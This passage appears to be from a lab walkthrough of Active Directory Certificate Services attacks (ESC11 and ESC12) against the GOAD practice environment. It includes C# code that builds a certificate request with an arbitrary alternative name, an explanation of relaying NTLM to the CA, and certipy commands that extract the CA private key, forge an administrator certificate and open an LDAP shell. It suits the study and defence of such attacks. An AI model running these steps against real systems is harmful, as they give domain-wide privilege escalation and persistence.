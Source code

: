 ```csharp
            "");

        request.Subject = new CX500DistinguishedName(subject);

        // Add SAN for GOAD domain
        var sanExtension = new CX509ExtensionAlternativeNames();
        var altNames = new CAlternativeNames();
        var altNameObj = new CAlternativeName();

        altNameObj.InitializeFromString(
            AlternativeNameType.XCN_CERT_ALT_NAME_RFC822_NAME,
            altname);
        altNames.Add(altNameObj);

        sanExtension.InitializeEncode(altNames);
        request.X509Extensions.Add(sanExtension);

        // Submit without encryption to vulnerable GOAD CA
        return request.Encode();
    }
}
```

The C# code above demonstrates how a certificate request (CSR) payload can be constructed. For the actual ESC11 attack, an attacker would typically use a tool like an adapted `ntlmrelayx.py` or custom tooling to relay incoming NTLM authentication (e.g., from a coerced machine account) to the ADCS server's `ICertRequestD` DCOM interface over unencrypted RPC. Once the NTLM relay is established, the attacker's tool submits the CSR (like the one generated above, often for a privileged account or a machine account with a useful SAN) on behalf of the relayed account. If successful, the CA issues the certificate for the target specified in the CSR, effectively escalating privileges.

## ESC12: Shell Access to CA Server

ESC12 is the holy grail - when you get shell access to the actual Certificate Authority server. At this point, you basically own the entire PKI infrastructure.

ESC12 also covers YubiHSM vulnerabilities discovered by Hans-Joachim Knobloch, but this specific attack vector is not implemented in the standard GOAD environment.

In GOAD, the CA server is `braavos.essos.local`. Let's say we've compromised it:

### Golden Certificate Creation (CA Private Key Compromise)

When you have CA administrator access (like `khal.drogo` in GOAD), you can extract the CA private key and forge golden certificates:

```bash
# Extract CA certificate and private key with certipy
certipy ca -backup -u khal.drogo@essos.local -p horse -dc-ip 192.168.56.12 -ca 'ESSOS-CA' -target 192.168.56.23 -debug

[*] Action: Backup CA
[*] Backing up CA 'ESSOS-CA'
[*] Saved certificate and private key to 'ESSOS-CA.pfx'

# Forge a certificate as domain admin
certipy forge -ca-pfx 'ESSOS-CA.pfx' -upn administrator@essos.local

[*] Action: Forge Certificate
[*] Forged certificate saved to 'administrator_forged.pfx'

# Authenticate with schannel
certipy auth -pfx administrator_forged.pfx -ldap-shell

[*] Action: Authenticate
```